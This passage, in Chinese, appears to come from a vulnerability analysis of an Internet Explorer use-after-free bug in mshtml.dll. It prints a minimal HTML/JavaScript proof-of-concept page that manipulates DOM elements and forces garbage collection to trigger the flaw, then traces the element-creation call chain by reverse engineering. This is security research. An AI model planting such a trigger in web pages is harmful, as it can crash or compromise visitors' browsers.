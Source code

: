 还有一份最简版本的 PoC 为

```html
<!doctype html>
<HTML>
<head>
<script>
function helloWorld() {
    f0 = document.createElement('span');
    document.body.appendChild(f0);
    f1 = document.createElement('span');
    document.body.appendChild(f1);
    f2 = document.createElement('span');
    document.body.appendChild(f2);
    document.body.contentEditable="true";

    Math.atan2(0xbadc0de, "before datalist")
    f2.appendChild(document.createElement('datalist'));
    f1.appendChild(document.createElement('span'));
    f1.appendChild(document.createElement('table'));

    try      { f0.offsetParent=null;}
    catch(e) { }
    f2.innerHTML = "";
    f1.innerHTML = "";
    f0.appendChild(document.createElement('hr'));
    CollectGarbage();
}

</script>
</head>
<body onload="eval(helloWorld());">
</body>
</html>
```

注意到 PoC 先是创建并渲染了 3 棵树，随后为两棵树添加了两个不同元素类型的子节点，并使添加了内联元素子节点的那棵树的 offsetParent 属性为 null。紧接着 PoC 删除了被添加子节点的树并为剩下的第三棵树添加了 hr 标签子节点，然后显式地进行了垃圾回收

在理解了 PoC 做了什么之后，就可以去尝试逆向 IE 引擎的 JS 解释器，查找 mshtml.dll 中与 createElement 有关的符号并查阅手册后发现 `CDocument::createElement` 函数通过调用 `CDocument::CreateElementHelper` 函数进行相关处理，`CDocument::CreateElementHelper` 函数又会调用 `CMarkup::CreateElement` 函数处理，`CMarkup::CreateElement` 函数则调用 `CreateElement` 函数处理，`CreateElement` 函数再根据创建对象调用对应对象的 `CreateElement` 函数进行创建，例如创建 span 对象将会调用 `CSpanElement::CreateElement` 函数进行创建，而 PoC 也的确创建的 span 对象，因此继续跟进到 `CSpanElement::CreateElement` 函数，该函数将通过 HeapAlloc 函数申请大小为 0x28 的堆块然后调用 `CElement::CElement` 函数。`CElement::CElement` 函数将会把创建的对象放进此前申请的堆块中

> 大部分元素创建时虽然调用的函数链不同，分配的内存堆块大小也不同，例如 span 元素会分配 0x28 而 CGenericElement 元素会分配 0x38，但都会经过 `CElement::CElement` 函数,

即 span 元素被创建时，函数调用链如下所示

```plaintext
CDocument::createElement
-> CDocument::createElementHelper
-> CMarkup::CreateElement
-> CreateElement
-> CSpanElement::CreateElement
-> CElement::CElement
```
